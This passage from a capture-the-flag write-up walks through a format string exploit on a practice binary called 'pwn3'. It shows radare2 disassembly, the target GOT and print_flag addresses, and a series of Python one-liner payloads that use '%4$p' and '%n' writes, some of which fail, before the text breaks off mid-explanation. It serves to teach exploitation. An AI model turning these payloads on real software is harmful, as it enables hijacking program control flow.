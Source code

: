 {{< highlight r2 "hl_lines=6" >}}
│           0x08048666      e8a5fdffff     sym.imp.printf ()           
│           0x0804866b      83c410         esp += 0x10                 
│           0x0804866e      83ec0c         esp -= 0xc                  
│           0x08048671      6a00           push 0                      
│         ; void exit(int status)
└           0x08048673      e8d8fdffff     sym.imp.exit ()  
{{< /highlight >}}

We have a winner! exit() function.

Finally, we just need to know the value to write in that address. That value is nothing more than a memory address that contains the code we want to be executed. Could you imagine of what value it can be?
Lets check again the previous output of r2 :smiley: .

{{< highlight r2 "hl_lines=1" >}}
0x080485ab    4 103          sym.print_flag
0x08048612    1 102          sym.main
{{< /highlight >}}

> That's it! the address of `sym.print_flag`! (`0x080485ab`)

Ok, those were a lot of explanations, right? Lets review all we have, just to not get lost.

1. We have the place where the address will be stored: the 4<sup>th</sup> position:  
```bash
$ python -c 'print("AAAA" + "%4$p")' | ./pwn3; echo
```  
2. We have the address to write to (by the way, emember about the [endianess](https://en.wikipedia.org/wiki/Endianness)).
```bash
$ python -c 'print("\x1c\xa0\x04\x08" + "%4$p")' | ./pwn3; echo
```

3. And here comes the last obstacle: We need to write the hex value `0x080485ab` through the `%n` operator.  
We know `%n` can write the length of the string with preceeds itself into the provided address, so at a first glance we could think in writing `134,514,087` characters (`134,514,091 - 4` because we already wrote a 4-byte address):
```bash
$ python -c 'print("\x1c\xa0\x04\x08" + "A"*134514087 + "%4$n")' | ./pwn3; echo
Enter a word to be echoed:
Traceback (most recent call last):
  File "<string>", line 1, in <module>
IOError: [Errno 32] Broken pipe
Segmentation fault
```

But aparently that is just to much for the pipe.  
We could try the `%<times>x` parameter. It just print as many memory bytes as we tell it to, so we do not have to generate them with python. 
```bash
$ python -c 'print("\x1c\xa0\x04\x08" + "%134514087x" + "%4$n")' | ./pwn3; echo
```

Meh! too much too.  
But wait a moment, there is a special paramater `%h` which does the following:
